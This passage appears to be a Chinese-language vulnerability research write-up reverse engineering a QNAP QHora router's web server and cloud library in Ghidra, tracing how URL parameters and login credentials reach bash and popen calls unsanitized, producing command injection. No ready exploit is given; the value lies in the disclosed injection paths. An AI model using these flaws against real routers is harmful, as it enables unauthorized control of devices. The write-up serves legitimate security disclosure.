          *(undefined8 *)((long)register0x00000008 + -0xd0) = uVar2;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/context.go:381
                        */
          *(undefined8 *)((long)register0x00000008 + -0x138) =
               *(undefined8 *)((long)register0x00000008 + 8);
          *(undefined **)((long)register0x00000008 + -0x130) = "callback";
          *(undefined8 *)((long)register0x00000008 + -0x128) = 8;
          github.com/gin-gonic/gin.(*Context).GetQueryArray //[3]
                    (*(undefined8 *)((long)register0x00000008 + -0x138),
                     *(undefined8 *)((long)register0x00000008 + -0x130),
                     *(undefined8 *)((long)register0x00000008 + -0x128),
                     *(undefined8 *)((long)register0x00000008 + -0x120),
                     *(undefined8 *)((long)register0x00000008 + -0x118),
                     *(undefined8 *)((long)register0x00000008 + -0x110),
                     *(undefined8 *)((long)register0x00000008 + -0x108));
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/context.go:382
                        */
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/gin-gonic/gin/context.go:381
                        */
          if (*(char *)((long)register0x00000008 + -0x108) == '\0') {
            uVar1 = 0;
            uVar2 = 0;
            goto LAB_00bf1e2c;
               // log print
            else {
              lVar3 = *(long *)((long)register0x00000008 + -0xf8);
              if (lVar3 != 0) {
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/system/hora_system.go:784
                        */
                *(undefined8 *)((long)register0x00000008 + -0x138) =
                     *(undefined8 *)((long)register0x00000008 + -0xd0);
                *(long *)((long)register0x00000008 + -0x130) =
                     *(long *)((long)register0x00000008 + -0xf0);
                miro-webserver/controllers/api/system.cloudVerifyDevice //[4]
                          (*(undefined8 *)((long)register0x00000008 + -0x138),
                           *(undefined8 *)((long)register0x00000008 + -0x130),
                           *(undefined8 *)((long)register0x00000008 + -0x128));

```

> 我已经尽可能的删除代码和一些打印日志了,或者下面这个我自己写的一个简单的示例.

 ```go
 //简单的看一下代码，Ghidra太复杂了，自己写的简单概括一下

 func VerifyDeviceAPI(c *gin.Context){

  verify_device, res := c.GetQueryArray("verify_device")
  device_token, res := c.GetQueryArray("device_token")
  callback, res := c.GetQueryArray("callback")
//打印日志....

  cloudVerifyDevice(device_token)
 }

 ```

> 可以在[1],[2],[3]处使用`GetQueryArray`函数去接收了我们在URL中传入的参数, 并进入[4]处的`system.coludVerifyDevice`

```c

void miro-webserver/controllers/api/system.cloudVerifyDevice
               (undefined8 param_1,undefined8 param_2,undefined8 param_3)

{
  undefined *puVar1;
  undefined uVar2;
  long *plVar3;
  long lVar4;
  long lVar5;
  ulong uVar6;
  undefined8 uVar7;
  long unaff_x28;
  undefined *unaff_x29;
  undefined8 unaff_x30;
  
  do {
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/system/hora_system.go:797
                        */
    puVar1 = (undefined *)register0x00000008;
    if (*(undefined **)(unaff_x28 + 0x10) < (undefined *)((long)register0x00000008 + -0x20)) {
      puVar1 = (undefined *)((long)register0x00000008 + -0xa0);
      *(undefined8 *)((long)register0x00000008 + -0xa0) = unaff_x30;
      *(undefined **)((long)register0x00000008 + -0xa8) = unaff_x29;
      unaff_x29 = (undefined *)((long)register0x00000008 + -0xa8);
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/system/hora_system.go:800
                        */
      *(undefined **)((long)register0x00000008 + -0x98) = &DAT_00faea90;
      *(undefined8 *)((long)register0x00000008 + -0x90) = 0xc;
      regexp.MustCompile(*(undefined8 *)((long)register0x00000008 + -0x98),
                         *(undefined8 *)((long)register0x00000008 + -0x90),
                         *(undefined8 *)((long)register0x00000008 + -0x88));
      *(undefined8 *)((long)register0x00000008 + -0x20) =
           *(undefined8 *)((long)register0x00000008 + -0x88);
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/system/hora_system.go:802
                        */
      *(undefined8 *)((long)register0x00000008 + -0x98) = 0;
      *(undefined **)((long)register0x00000008 + -0x90) = "/usr/bin/qcloud_control_tool verify_device";
      *(undefined8 *)((long)register0x00000008 + -0x88) = 0x2b;
      *(undefined8 *)((long)register0x00000008 + -0x80) =
           *(undefined8 *)((long)register0x00000008 + 8);
      *(undefined8 *)((long)register0x00000008 + -0x78) =
           *(undefined8 *)((long)register0x00000008 + 0x10);
      runtime.concatstring2 //[1]
                (*(undefined8 *)((long)register0x00000008 + -0x98),
                 *(undefined8 *)((long)register0x00000008 + -0x90),
                 *(undefined8 *)((long)register0x00000008 + -0x88),
                 *(undefined8 *)((long)register0x00000008 + -0x80),
                 *(undefined8 *)((long)register0x00000008 + -0x78),
                 *(undefined8 *)((long)register0x00000008 + -0x70),
                 *(undefined8 *)((long)register0x00000008 + -0x68));
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/system/hora_system.go:803
                        */
      *(undefined8 *)((long)register0x00000008 + -0x98) =
           *(undefined8 *)((long)register0x00000008 + -0x70);
      *(undefined8 *)((long)register0x00000008 + -0x90) =
           *(undefined8 *)((long)register0x00000008 + -0x68);
      miro-webserver/controllers/api/config.RunExec //[2]
                (*(undefined8 *)((long)register0x00000008 + -0x98),
                 *(undefined8 *)((long)register0x00000008 + -0x90),
                 *(undefined8 *)((long)register0x00000008 + -0x88),
                 *(undefined8 *)((long)register0x00000008 + -0x80),
                 *(undefined8 *)((long)register0x00000008 + -0x78));

```

> [1]拼接字符串和我们的device_token, 并进入[2]`miro-webserver/controllers/api/config.RunExec` , 并在其中使用`exec.Command`执行了命令

```C

void miro-webserver/controllers/api/config.RunExec
               (undefined8 param_1,undefined8 param_2,undefined8 param_3,undefined8 param_4,
               undefined8 param_5)

{
  undefined8 uVar1;
  long unaff_x28;
  undefined8 uVar2;
  undefined8 in_stack_fffffffffffffef8;
  undefined **ppuVar3;
  runtime._type **pprVar4;
  undefined **ppuVar5;
  undefined8 uVar6;
  long lVar7;
  undefined8 uVar8;
  undefined8 in_stack_ffffffffffffff10;
  undefined8 in_stack_ffffffffffffff18;
  undefined8 local_a0;
  runtime._type *local_98;
  runtime._type **local_90;
  runtime._type *local_88;
  undefined **local_80;
  runtime._type *local_78;
  undefined **local_70;
  runtime._type *local_68;
  undefined *local_60;
  runtime._type *local_58;
  runtime._type *local_48;
  undefined8 local_40;
  runtime._type *local_38;
  undefined **local_30;
  undefined *local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/config/tools.go:59
                        */
  while (uVar1 = DAT_017fa2a8, &local_a0 <= *(undefined8 **)(unaff_x28 + 0x10)) {
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/config/tools.go:59
                        */
    runtime.morestack_noctxt();
  }
  uVar2 = param_2;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/config/tools.go:68
                        */
  runtime.convTstring(param_1,param_2,in_stack_fffffffffffffef8);
  local_68 = &datatype.String.string;
  local_60 = &goss_Run_Cmd:__1168c70;
  local_58 = &datatype.String.string;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/sirupsen/logrus/logger.go:202
                        */
  github.com/sirupsen/logrus.(*Logger).Log
            (uVar1,CONCAT44((int)((ulong)uVar2 >> 0x20),5),&local_68,2,2);
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/config/tools.go:69
                        */
  local_28 = &SUB_00fa4dc9;
  local_20 = 2;
  local_18 = param_1;
  local_10 = param_2;
  uVar2 = 4;
  ppuVar3 = &local_28;
  uVar6 = 2;
  lVar7 = 2;
  os/exec.Command("bash",4,ppuVar3,2,2,in_stack_ffffffffffffff10);

```

> 非常经典的命令注入, 唯一的难点在与需要更多的时间去看这个难以阅读的代码.

### vuln-3

> 当然我们找不到未授权的漏洞时候, 就会去看登录和鉴权所以下面这个漏洞就出现在登录接口, 一样和云服务有关.

> 了解一下前置知识, 前面提到过这个web使用的认证框架是`gin-jwt`, 看一下是怎么设置这个结构体的.

```Go
func initParams() *jwt.GinJWTMiddleware {

  return &jwt.GinJWTMiddleware{
    Realm:       "test zone",
    Key:         []byte("secret key"),
    Timeout:     time.Hour,
    MaxRefresh:  time.Hour,
    IdentityKey: identityKey,
    PayloadFunc: payloadFunc(),

    IdentityHandler: identityHandler(),
    Authenticator:   authenticator(), //这里就是验证登录的函数
    Authorizator:    authorizator(),
    Unauthorized:    unauthorized(),
    TokenLookup:     "header: Authorization, query: token, cookie: jwt",
    // TokenLookup: "query:token",
    // TokenLookup: "cookie:token",
    TokenHeadName: "Bearer",
    TimeFunc:      time.Now,
  }
}

```

> 那在我们的ghidra分析的代码中是怎么定义这个结构体的呢, 部分函数我已经重新命名了, 如果第一次打开你只会看到func1和func*.

```C
void miro-webserver/controllers/api/login.MiroHoraLoginInit(void)

{
  undefined *puVar1;
  undefined8 *puVar2;
  long unaff_x28;
  undefined8 in_stack_ffffffffffffffb8;
  undefined8 *puVar3;
  undefined8 *in_stack_ffffffffffffffc0;
  undefined8 *puVar4;
  undefined8 in_stack_ffffffffffffffc8;
  undefined8 uVar5;
  undefined8 uVar6;
  
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:127
                        */
  while (&stack0x00000000 <= *(undefined **)(unaff_x28 + 0x10)) {
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:127
                        */
    runtime.morestack_noctxt();
  }
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:131
                        */
  miro-webserver/controllers/api/login.generateKey
            (in_stack_ffffffffffffffb8,in_stack_ffffffffffffffc0,in_stack_ffffffffffffffc8);
  puVar2 = in_stack_ffffffffffffffc0;
  uVar5 = in_stack_ffffffffffffffc8;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:128
                        */
  runtime.newobject(&datatype.Struct.jwt.GinJWTMiddleware,in_stack_ffffffffffffffc0);
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:129
                        */
  puVar2[1] = 4;
  *puVar2 = &DAT_00fa5acc;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:131
                        */
  puVar2[5] = in_stack_ffffffffffffffc0;
  puVar2[6] = in_stack_ffffffffffffffc8;
  puVar4 = puVar2;
  if (DAT_01830e10 == 0) {
    puVar2[4] = in_stack_ffffffffffffffb8;
  }
  else {
    runtime.gcWriteBarrier();
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:129
                        */
  }
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:132
                        */
  puVar2[7] = 18000000000000;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:133
                        */
  puVar2[8] = 18000000000000;
  puVar1 = goss_Miro_login_1785620;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:134
                        */
  puVar2[0x12] = DAT_01785628;
  if (DAT_01830e10 == 0) {
    puVar2[0x11] = puVar1;
  }
  else {
    runtime.gcWriteBarrier();
  }
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:128
                        */
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:135
                        */
  puVar2[0xb] = &PTR_miro-webserver/controllers/api/login.MiroHoraLoginInit.func1_PayloadFunc;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:146
                        */
  puVar2[0x10] = &PTR_miro-webserver/controllers/api/login.MiroHoraLoginInit.func2_IdentityHandler;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:155
                        */
  puVar2[9] = &PTR_miro-webserver/controllers/api/login.MiroHoraLoginInit.func3_Loginv1; //[1]
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:331
                        */
  puVar2[10] = &PTR_miro-webserver/controllers/api/login.MiroHoraLoginInit.func4_Authorizator;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:345
                        */
  puVar2[0xc] = &PTR_miro-webserver/controllers/api/login.MiroHoraLoginInit.func5_Unauthorized;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:425
                        */
  puVar2[0x14] = 0x30;
  puVar2[0x13] = &DAT_00fe3142;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:430
                        */
  puVar2[0x16] = 6;
  puVar2[0x15] = &DAT_00fa7673;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:433
                        */
  puVar2[0x17] = &PTR_time.Now_01030c10;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:434
                        */
  puVar2[0xd] = &PTR_miro-webserver/controllers/api/login.MiroHoraLoginInit.func6_LoginResponse;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:489
                        */
  puVar2[0xe] = &PTR_miro-webserver/controllers/api/login.MiroHoraLoginInit.func7_LogoutResponse;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/controllers/api/login/login.go:505
                        */
  puVar2[0xf] = &PTR_miro-webserver/controllers/api/login.MiroHoraLoginInit.func8_RefreshResponse;
  puVar3 = puVar2;
                    /* /root/build_qhora-322_2.4.1.634/build/go-gin-webframework-t_qurouter_2.4.1.63 4/miro-webserver/vendor/github.com/appleboy/gin-jwt/v2/auth_jwt.go:197
                        */
  github.com/appleboy/gin-jwt/v2.(*GinJWTMiddleware).MiddlewareInit(puVar2,puVar4,uVar5);

```

> 登录的函数[1], 这个函数中有两个主要函数

> 本地认证通过`login.checkLocalAccount`函数完成,并调用sql查询,sql查询的函数如下，使用`gorm`库查询.

 ```c

 void GetUserByCategory(){
  runtime.newobject(&datatype.Array.[1]interface_{},lVar1);
  lVar2 = lVar1;
  runtime.convT64(param_2,lVar1);
  *(runtime._type **)lVar1 = &datatype.Int.int;
  if (DAT_01830e10 == 0) {
    *(long *)(lVar1 + 8) = lVar2;
  }
  else {
    runtime.gcWriteBarrier();
  }
  github.com/jinzhu/gorm.(*DB).Where
            (lVar3,&datatype.String.string,&goss_category_=_?_116bd80,lVar1,1,1,
             in_stack_ffffffffffffffc8);
  uVar4 = 0;
  uVar5 = 0;
  github.com/jinzhu/gorm.(*DB).Find
            (in_stack_ffffffffffffffc8,&datatype.Ptr.*[]models.UserProfile,in_stack_ffffffffffffffa0
             ,0,0,0,in_stack_ffffffffffffffc8);
  if (*(long *)(in_stack_ffffffffffffffc8 + 0x28) != 0) 
 }

 ```

 > 我比较感兴趣的是`login.singIn()`函数,看上去是通过云服务进行认证, 通过运行`/usr/bin/qcloud_control_tool signin 'user' 'password'`验证登录. 如果你想要知道web端的代码逻辑, 感兴趣的师傅可以自行去看, 不是我不想放出来是真的太乱了并且我也没找到好的办法去显示出来.

 > 所以我们来看C吧, 这个漏洞的调用流程如下.

 ```

libqcloud.so

qnap_id_auth_user()
      |
qnap_id_get_signin_token_cache()
      |
qnap_id_get_signin_token_cache_section_name()
      |
util_get_md5_digest()
      |
util_system_cmd()
      |
    popen()

```

> 先看`qcloud_control_tool`程序

```C

undefined8 FUN_00402690(int param_1,undefined8 *param_2)

{
  int iVar1;
  undefined8 uVar2;
  undefined8 uVar3;
  char *__s1;
  
  if (param_1 < 2) {
LAB_00402a6c:
    FUN_004044bc(*param_2);
    return 0xffffffff;
  }
  __s1 = (char *)param_2[1];
  iVar1 = strcmp(__s1,"report_uninit_device_info");
  if ((iVar1 == 0) && (param_1 == 3)) {
    uVar2 = FUN_00402d6c(param_2[2]);
    return uVar2;
  }
  iVar1 = strcmp(__s1,"signin");
  if ((iVar1 == 0) && (param_1 == 4)) {
    uVar2 = FUN_00402dd0(param_2[2],param_2[3]); //[1]
    return uVar2;
  }
  iVar1 = strcmp(__s1,"available");
  if ((iVar1 == 0) && (param_1 == 3)) {
    uVar2 = FUN_00402ec8(param_2[2]);
    return uVar2;
  }
  iVar1 = strcmp(__s1,"bind");
  if ((iVar1 != 0) || (param_1 == 2)) {
    iVar1 = strcmp(__s1,"publish");
    if ((iVar1 == 0) && (param_1 == 2)) {
      uVar2 = FUN_00402f70(0);
      return uVar2;
    }
    iVar1 = strcmp(__s1,"enable_ddns");
    if ((iVar1 == 0) && (param_1 == 3)) {
      uVar2 = FUN_00403358(param_2[2]);
      return uVar2;
    }
    iVar1 = strcmp(__s1,"set_ddns_config");
    if ((iVar1 == 0) && (param_1 != 2)) {
      if (param_1 == 3) {
        uVar2 = 0;
      }
      else {
        uVar2 = param_2[3];
      }
      uVar2 = FUN_004034c0(param_2[2],uVar2);
      return uVar2;
    }
    iVar1 = strcmp(__s1,"get_ddns_config");
    if (iVar1 == 0) {
      uVar2 = FUN_004034f4();
      return uVar2;
    }
    iVar1 = strcmp(__s1,"verify_device");
    if ((iVar1 == 0) && (param_1 == 3)) {
      uVar2 = FUN_00403934(param_2[2]);
      return uVar2;
    }
    iVar1 = strcmp(__s1,"get_device_info");
    if ((iVar1 == 0) && (param_1 == 2)) {
      uVar2 = FUN_00403a48();
      return uVar2;
    }
    iVar1 = strcmp(__s1,"update_device_info");
    if ((iVar1 == 0) && (param_1 == 2)) {
      uVar2 = FUN_00403c80();
      return uVar2;
    }
    iVar1 = strcmp(__s1,"check_device_info");
    if ((iVar1 == 0) && (param_1 == 2)) {
      uVar2 = FUN_00403da8();
      return uVar2;
    }
    iVar1 = strcmp(__s1,"unbind");
    if ((iVar1 == 0) && (param_1 == 2)) {
      uVar2 = FUN_004039b8();
      return uVar2;
    }
    iVar1 = strcmp(__s1,"get_wan_ip");
    if ((iVar1 == 0) && (param_1 == 2)) {
      uVar2 = FUN_00403e08();
      return uVar2;
    }
    iVar1 = strcmp(__s1,"get_geoinfo");
    if ((iVar1 == 0) && (param_1 == 2)) {
      uVar2 = FUN_00403ee0();
      return uVar2;
    }
    iVar1 = strcmp(__s1,"change_name");
    if ((iVar1 == 0) && (param_1 == 3)) {
      uVar2 = FUN_00403f78(param_2[2]);
      return uVar2;
    }
    iVar1 = strcmp(__s1,"change_region");
    if ((iVar1 == 0) && (param_1 == 3)) {
      uVar2 = FUN_00404000(param_2[2]);
      return uVar2;
    }
    iVar1 = strcmp(__s1,"switch_to_centralized_mode");
    if ((iVar1 == 0) && (param_1 != 2)) {
      if (param_1 == 3) {
        uVar2 = 0;
      }
      else {
        uVar2 = param_2[3];
      }
      uVar2 = FUN_004040d8(param_2[2],uVar2);
      return uVar2;
    }
    iVar1 = strcmp(__s1,"get_user_access_token");
    if ((iVar1 == 0) && (param_1 == 3)) {
      uVar2 = FUN_00404414(param_2[2]);
      return uVar2;
    }
    goto LAB_00402a6c;
  }
  if (param_1 == 3) {
    uVar2 = 0;
  }
  else {
    uVar2 = param_2[3];
    if (param_1 != 4) {
      uVar3 = param_2[4];
      goto LAB_0040277c;
    }
  }
  uVar3 = 0;
LAB_0040277c:
  uVar2 = FUN_00403204(param_2[2],uVar2,uVar3);
  return uVar2;
}


```

> 非常简洁的代码进入到[1]处, 并传入我们的user和pwd.

```C++

uint FUN_00402dd0(undefined8 param_1,undefined8 param_2)

{
  int iVar1;
  uint uVar2;
  undefined8 Config_Data;
  undefined8 local_fe0;
  undefined8 uStack_fd8;
  undefined auStack_fd0 [1096];
  undefined auStack_b88 [255];
  char local_a89;
  
  local_fe0 = 0;
  uStack_fd8 = 0;
  memset(auStack_fd0,0,0x445);
  memset(auStack_b88,0,0xb84);
  Config_Data = qcloud_init_ctx(auStack_fd0);
  qcloud_get_device_info(Config_Data,auStack_b88);
  if (local_a89 == '3') {
    qid_sys_get_bind_mode(&local_fe0,0x10);
    iVar1 = strcmp((char *)&local_fe0,"centralized");
    if (iVar1 == 0) {
      uVar2 = qcloud_organization_auth_user(Config_Data);
    }
    else {
      uVar2 = qnap_id_auth_user(Config_Data,param_1,param_2);
    }
  }
  else {
    uVar2 = qnap_id_signin(Config_Data,param_1,param_2);
  }
  printf("ret: %d\n",(ulong)uVar2);
  qcloud_cleanup_ctx(Config_Data);
  return uVar2;
}


```
> 这里有一点判断但是无伤大雅后面我会解释这里的判断, 进入到我们的`qnap_id_auth_user()`函数在`libqcloud.so`库中.

```C++


int qnap_id_auth_user(long param_1,long Username,char *Password_or_Token)

{
  int iVar1;
  int iVar2;
  long lVar3;
  undefined8 uVar4;
  undefined *puVar5;
  int local_1b34;
  undefined8 local_1b30;
  long local_1b28;
  undefined8 local_1b20;
  undefined8 uStack_1b18;
  undefined auStack_1b10 [1016];
  undefined8 local_1718;
  undefined8 uStack_1710;
  undefined auStack_1708 [1016];
  char local_1310 [520];
  char local_1108 [4360];
  
  local_1b20 = 0;
  uStack_1b18 = 0;
  memset(auStack_1b10,0,0x3f1);
  local_1718 = 0;
  uStack_1710 = 0;
  memset(auStack_1708,0,0x3f1);
  local_1b30 = 0;
  local_1b28 = 0;
  memset(local_1310,0,0x130c);
  if ((param_1 == 0 || Username == 0) || (Password_or_Token == (char *)0x0)) {
    qnap_log(3,&DAT_00143e42,"qid/qcloud_auth.c",0x20c,"qnap_id_auth_user","input error");
    return -0x3c7;
  }
  iVar1 = util_is_qcloud_oauth_token_format(Password_or_Token);
  if (iVar1 == 0) {
    iVar1 = qnap_id_get_signin_token_cache
                      (param_1,param_1 + 0x202,"password",Username,Password_or_Token,local_1310); //[1]
    if (iVar1 == 0) {
      qnap_id_signout_token(param_1,local_1310,local_1310);
    }
    iVar1 = qnap_id_signin_token
                      (param_1,param_1,param_1 + 0x202,"password",Username,Password_or_Token,0,0,
                       local_1310);
    if (iVar1 == 0) goto LAB_001306ac;
    qnap_log(3,&DAT_00143e42,"qid/qcloud_auth.c",0x21e,"qnap_id_auth_user","login failed");
  }
  else {
    strncpy(local_1310,Password_or_Token,0x100);
LAB_001306ac:
    snprintf((char *)&local_1b20,0x400,"%s/v1.2/device/%s",param_1 + 0x989,param_1 + 0x1432);
    snprintf((char *)&local_1718,0x400,"Authorization: Bearer %s",local_1310);
    iVar1 = qid_httpc_request_ex(param_1,0,0,&local_1b20,&local_1718,0,&local_1b30,0x1000);
    if (-1 < iVar1) {
      lVar3 = json_tokener_parse_verbose(local_1b30,&local_1b34);
      if ((lVar3 == 0) || (local_1b34 != 0)) {
        iVar1 = -0x3e3;
        uVar4 = json_tokener_error_desc(local_1b34);
        qnap_log(3,&DAT_00143e42,"qid/qcloud_auth.c",0x233,"qnap_id_auth_user","json-c_parse: %s",
                 uVar4);
      }
      else {
        iVar2 = json_object_object_get_ex(lVar3,"code",&local_1b28);
        if ((iVar2 != 0) && (local_1b28 != 0)) {
          json_object_get_string();
          iVar1 = qcloud_get_status_code();
          if (iVar1 != 0) goto LAB_00130774;
        }
        if (local_1310[0] != '\0') {
          qid_sys_set_centralized_mode_access_token(Username,local_1310);
        }
        if (local_1108[0] != '\0') {
          qid_sys_set_centralized_mode_refresh_token(Username,local_1108);
        }
      }
      goto LAB_00130774;
    }
  }
  lVar3 = 0;
LAB_00130774:
  if (iVar1 == 0 || lVar3 == 0) {
    if (lVar3 == 0) {
      return iVar1;
    }
  }
  else {
    iVar2 = json_object_object_get_ex(lVar3,"stacktrace",&local_1b28);
    if ((iVar2 != 0) && (local_1b28 != 0)) {
      uVar4 = json_object_get_string();
      qnap_log(3,&DAT_00143e42,"qid/qcloud_auth.c",0x252,"qnap_id_auth_user","stacktrace: %s",uVar4)
      ;
    }
    iVar2 = json_object_object_get_ex(lVar3,"message",&local_1b28);
    if ((iVar2 == 0) || (local_1b28 == 0)) {
      puVar5 = &DAT_00144148;
    }
    else {
      puVar5 = (undefined *)json_object_get_string();
    }
    qnap_log(3,&DAT_00143e42,"qid/qcloud_auth.c",599,"qnap_id_auth_user","code: %d msg: %s",iVar1,
             puVar5);
  }
  json_object_put(lVar3);
  return iVar1;
}

```

> 继续跟`qnap_id_get_signin_token_cache`

```C


undefined8
qnap_id_get_signin_token_cache
          (undefined8 param_1,undefined8 param_2,undefined8 strpwd,undefined8 usern,
          undefined8 passowrd,long param_6)

{
  int iVar1;
  time_t tVar2;
  undefined8 local_810;
  undefined8 uStack_808;
  undefined auStack_800 [1016];
  undefined8 local_408;
  undefined8 uStack_400;
  undefined auStack_3f8 [1016];
  
  local_810 = 0;
  uStack_808 = 0;
  memset(auStack_800,0,0x3f1);
  local_408 = 0;
  uStack_400 = 0;
  memset(auStack_3f8,0,0x3f1);
  qnap_id_get_signin_token_cache_section_name
            (param_1,param_2,strpwd,usern,passowrd,&local_810,0x400);//[1]
  if ((char)local_810 != '\0') {
    iVar1 = qid_sys_get_access_token_expire_time(&local_810);
    tVar2 = time((time_t *)0x0);
    if (tVar2 <= iVar1) {
      qid_sys_get_access_token(&local_810,"AccessToken",param_6,0x101);
      qid_sys_get_access_token(&local_810,"TokenType",param_6 + 0x101);
      qid_sys_get_access_token(&local_810,"ExpiresIn",&local_408,0x400);
      iVar1 = atoi((char *)&local_408);
      *(int *)(param_6 + 0x204) = iVar1;
      qid_sys_get_access_token(&local_810,"RefreshToken",param_6 + 0x208,0x101);
      qid_sys_get_access_token(&local_810,"Scope",param_6 + 0x309,0x1001);
      return 0;
    }
  }
  return 0xfffffc1d;
}
```

```C++

int qnap_id_get_signin_token_cache_section_name
              (undefined8 param_1,undefined8 param_2,char *strpwd,undefined8 user,undefined8 passwd,
              char *param_6,size_t num_400)

{
  int iVar1;
  char *__format;
  undefined8 local_810;
  undefined8 uStack_808;
  undefined auStack_800 [1016];
  undefined8 local_408;
  undefined8 uStack_400;
  undefined auStack_3f8 [1016];
  
  local_810 = 0;
  uStack_808 = 0;
  memset(auStack_800,0,0x3f1);
  local_408 = 0;
  uStack_400 = 0;
  memset(auStack_3f8,0,0x3f1);
  iVar1 = strcasecmp(strpwd,"password");
  if (iVar1 == 0) {
    snprintf((char *)&local_810,0x400,"%s%s%s%s",param_1,param_2,user,passwd);
    util_get_md5_digest(&local_810,&local_408,0x400);//[2]
    __format = "auth-password-%s";
  }
  else {
    iVar1 = strcasecmp(strpwd,"client_credentials");
    if (iVar1 != 0) {
      return iVar1;
    }
    snprintf((char *)&local_810,0x400,"%s%s",param_1,param_2);
    util_get_md5_digest(&local_810,&local_408,0x400);
    __format = "auth-client_credentials-%s";
  }
  iVar1 = snprintf(param_6,num_400,__format,&local_408);
  return iVar1;
}
```

```C++
void util_get_md5_digest(undefined8 param_1,undefined8 param_2,undefined8 param_3)

{
  char acStack_208 [520];
  
  snprintf(acStack_208,0x200,"/bin/echo -n %s | /usr/bin/md5sum | cut -d\" \" -f1",param_1);
  util_system_cmd(acStack_208,param_2,param_3);//[3]
  return;
}


```
> 一路跟下去

```C++

undefined8
util_system_cmd_ex(char *param_1,char *param_2,size_t param_3,int *param_4,long param_5,int param_6)

{
  uint uVar1;
  uint uVar2;
  int iVar3;
  FILE *__stream;
  fd_set *__readfds;
  int *piVar4;
  char *pcVar5;
  timeval local_498;
  undefined auStack_488 [128];
  char acStack_408 [1032];
  
  if ((param_1 == (char *)0x0 || param_2 == (char *)0x0) || (param_3 == 0)) {
    qnap_log(3,&DAT_00143e42,"utils/util.c",0x3a1,"util_system_cmd_ex","invalid parameters");
    return 0xfffffc39;
  }
  memset(param_2,0,param_3);
  __stream = popen(param_1,"r"); //[1]
  if (__stream == (FILE *)0x0) {
    piVar4 = __errno_location();
    pcVar5 = strerror(*piVar4);
    qnap_log(3,&DAT_00143e42,"utils/util.c",0x3d9,"util_system_cmd_ex",
             "popen failed: cmd: %s: err: %s",param_1,pcVar5);
    return 0;
  }
  if (0 < param_6) {
    uVar2 = fileno(__stream);
    local_498.tv_usec = 0;
